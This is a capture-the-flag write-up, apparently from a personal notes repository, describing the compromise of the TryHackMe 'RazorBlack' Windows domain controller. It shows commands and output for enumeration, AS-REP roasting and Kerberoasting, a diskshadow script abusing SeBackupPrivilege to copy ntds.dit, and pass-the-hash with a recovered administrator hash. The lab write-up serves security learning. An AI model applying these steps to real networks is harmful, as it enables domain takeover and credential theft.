








# THM - RazorBlack

#### Ip: 10.10.83.71
#### Name: RazorBlack
#### Rating: Medium

----------------------------------------------------------------------


### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ sudo nmap -p-  --min-rate 10000 10.10.59.200  
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-22 10:33 CDT
Warning: 10.10.59.200 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.59.200
Host is up (0.13s latency).
Not shown: 64884 closed tcp ports (reset), 624 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
111/tcp   open  rpcbind
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
2049/tcp  open  nfs
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown
49673/tcp open  unknown
49677/tcp open  unknown
49692/tcp open  unknown
49704/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 19.51 seconds
```

Woof, that's a lot of open ports. Rather than scanning for versions and using Nmap scripts, lets enumerate these manually. 

Because this appears to be a domain controller, lets use CrackmapExec to get the domain name, which we can then add to our `/etc/hosts` file:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ crackmapexec smb 10.10.59.200                           
SMB         10.10.59.200    445    HAVEN-DC         [*] Windows 10.0 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:False)
```

Taking a look at RPC on port 111, we see we can mount a share:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ showmount -e 10.10.59.200
Export list for 10.10.59.200:
/users (everyone)
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ mkdir /tmp/users         
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ sudo mount -t nfs 10.10.59.200:/users /tmp/users -o nolock
                                                                                                                                                                                                                                                       
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ sudo ls /tmp/users 
employee_status.xlsx  sbradley.txt
```

Cool, looks like two files, an employee status Excel document, and a file called sbradley.txt, which contains a flag (for this writeup I'll be skipping all the flag submissions for the challenge and just focusing on rooting the domain)

Taking a look at the Excel document we find a list of names. We can follow the naming convention from the sbradley.txt file and assume the convention is first_initial_last_name. Lets create a username file based on this logic:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ cat >> users.txt
dport
iroyce
tvidal
aedwards
cingram
ncassidy
rzaydan
lvetrova
rdelgado
twilliams
sbradley
clin
^C
```

Now that we have this, lets see what we can do with it.

### Exploitation

Trying impacket-GetNPUsers with the `-no-pass` flag set we are able to drop a hash!



Lets put this hash in a file called twilliams_hash and try to crack it using JohnTheRipper:



Nice, John cracked that easily. Now that we have some credentials, lets try using impacket-GetUserSPNs:



We've got another hash! This time for user xyan1d3.

Once again I'll ad this to a file called xyan1d3_hash and use John to crack it:



Cool, that worked! We can now use Evil-WinRM to logon to the target:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ evil-winrm -i raz0rblack.thm -u xyan1d3 -p cyanide9amine5628
```

### Privilege Escalation

Taking a look at our privileges by running `whoami /all` we see the SeBackupPrivilege, which should hopefully be a way to escalate privileges by allowing us to obtain the ntds.dit file. 

To do this we'll need to creat a .dsh file and convert it to be compatible with Windows:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ cat >> hey.dsh 
set context persistent nowriters
add volume c: alias hey
create
expose %hey% z:
^C
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ unix2dos hey.dsh   
unix2dos: converting file hey.dsh to DOS format...
```

Back on the target I'll create a TEMP file and upload the .dsh file using the `upload` feature in Evil-WinRM.

```text
*Evil-WinRM* PS C:\TEMP> upload ~/THM/RazorBlack/hey.dsh
Info: Uploading ~/THM/RazorBlack/hey.dsh to C:\TEMP\hey.dsh

                                                             
Data: 112 bytes of 112 bytes copied

Info: Upload successful!
```

We can now use DiskShadow to make a copy of the `C:\` drive:



Now lets use robocopy to grab the ntds.dit file:

```text
*Evil-WinRM* PS C:\TEMP> robocopy /b z:\windows\ntds . ntds.dit
-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Tuesday, August 22, 2023 9:53:47 AM
   Source : z:\windows\ntds\
     Dest : C:\TEMP\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------
```

And we'll also want to grab the SYSTEM registry file too:

```text
*Evil-WinRM* PS C:\TEMP> reg save hklm\system SYSTEM
The operation completed successfully.
```

After using the `download` feature in Evil-WinRM to bring these files back to my attacking machine, I can use impacket-secretsdump to get the administrator's NTLM hash:



From here I can pass-the-hash to their account:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ evil-winrm -i raz0rblack.thm -u administrator -H 9689931bed40ca5a2ce1218210177f0c
```

And in the `administrator` folder we find a file called root.xml, which appears to be in hex:



We can crack this using https://gchq.github.io/CyberChef/:



Thanks for following along!

-Ryan

-----------------------------------------------------------
